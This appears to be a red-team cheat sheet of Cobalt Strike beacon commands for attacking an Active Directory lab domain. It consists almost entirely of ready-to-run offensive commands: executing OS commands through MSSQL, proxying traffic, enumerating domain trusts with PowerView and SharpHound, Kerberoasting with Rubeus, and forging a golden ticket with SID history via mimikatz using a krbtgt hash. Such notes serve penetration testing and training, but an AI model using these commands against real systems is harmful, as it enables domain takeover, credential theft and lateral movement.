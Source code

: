 ```

# query
beacon> powershell Get-SQLQuery -Instance 'sql01.vault.io,1433' -Query 'select @@servername'

# execute system command
beacon> powerpick Invoke-SQLOSCmd -Instance 'sql-1.vault.io,1433' -Command 'dir C:\' -RawResults

# access via client
beacon> socks 1050
$ proxychains socat TCP4-Listen:1433,fork TCP:10.0.0.20:1433
cmd.exe> runas /netonly /user:VAULT\mssql_svc "C:\Program Files\HeidiSQL\heidisql.exe"
```

##### Cobalt Strike

```
beacon> powershell-import /tools/PowerSploit/Recon/PowerView.ps1
beacon> powerpick Get-DomainTrust -Domain child.vault.io
beacon> powerpick Get-DomainComputer -Domain child.vault.io | select DnsHostName
beacon> execute-assembly /tools/SharpHound.exe -c all -D child.vault.io
```

BloodHound

(analysis pre-build queries)
"Users with Foreign Domain Group Membership"

Kerberoast

```
beacon> execute-assembly c:\tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /domain:child.vault.io
```

Golden Ticket + SID History

```
# SIDS (new domain)
beacon> powershell-import /tools/PowerSploit/Recon/PowerView.ps1
beacon> powerpick Get-DomainGroup -Identity 'Domain Admins' -Domain parent.vault.io | select ObjectSid
[...]

# SID
beacon> powerpick ConvertTo-SID 'child\administrator'

# update, use /ptt instead of /ticket to skip storing file
beacon> mimikatz kerberos::golden /user:Administrator /domain:dev.vault.io /sid:S-1-5-21-2824171953-2587308990-2984250211 /sids:S-1-5-21-3063796876-3415205720-618848691-512 /krbtgt:1b1baa15534dbd2f6e9de344e6d17ffe /ticket:vl.kirbi

# download
beacon> download vlt.kirbi
beacon> kerberos_ticket_use /tmp/vlt.kirbi
```
